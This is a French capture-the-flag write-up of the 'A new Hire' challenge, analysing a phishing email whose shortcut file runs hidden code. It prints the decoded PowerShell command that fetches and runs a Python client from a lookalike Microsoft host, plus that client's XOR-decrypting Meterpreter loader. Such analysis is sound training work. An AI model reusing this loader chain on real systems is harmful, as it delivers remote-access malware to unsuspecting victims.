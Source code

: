 # A new Hire
### The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

Tout d'abord, le challenge nous acceuille avec un fichier .eml, donc un mail. On l'ouvre alors pour voir son contenu :

![mail](https://github.com/user-attachments/assets/5a98887e-2016-47fd-9278-ea2060108038)

On se rend alors sur le lien donné par le challenge après une petite modification de `/etc/hosts` au passage et en mettant le port fournis par le challenge.  
On arrive alors sur un index.php, qui nous demande de cliquer sur un bouton pour révéler le fameux CV : 

![index php](https://github.com/user-attachments/assets/2e5a353f-aa1d-4f3f-84c3-cc4508fa220d)

Ce bouton, censé nous débloquer l'accès au CV, télécharge enfaîte ceci : 

![remuse pdf](https://github.com/user-attachments/assets/36f27514-808b-4cf9-89c7-dedbb8d668e6)

Je me demande donc, qu'est ce que ce raccourci peut bien faire de beau ?

![raccourci](https://github.com/user-attachments/assets/42e35513-8fde-402a-b699-ae8e0fd6fdbe)

Une fois décodé du base64, on obtient ceci :
```powershell 
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:41075/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');  \\storage.microsoftcloudservices.com@41075\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@41075\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
On se rends donc sur l'url `http://storage.microsoftcloudservices.com:41075/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py`, ce qui nous fait download un autre petit cadeau : 
```python
key=base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")

data = base64.b64decode("c97FeXRj6jeG5P74ANItMBN […] ")
meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])

exec(__import__('zlib').decompress(meterpreter_data)[0])
```
Ce qui nous mène, à ceci : 
```python
import base64
print(base64.b64decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg=="))
```
Bingo  ! On rends ça lisible une nouvelle fois : 

![flag2](https://github.com/user-attachments/assets/9fe23c1a-e189-40e2-841f-21a5ef59b4b5)

Et voilà !
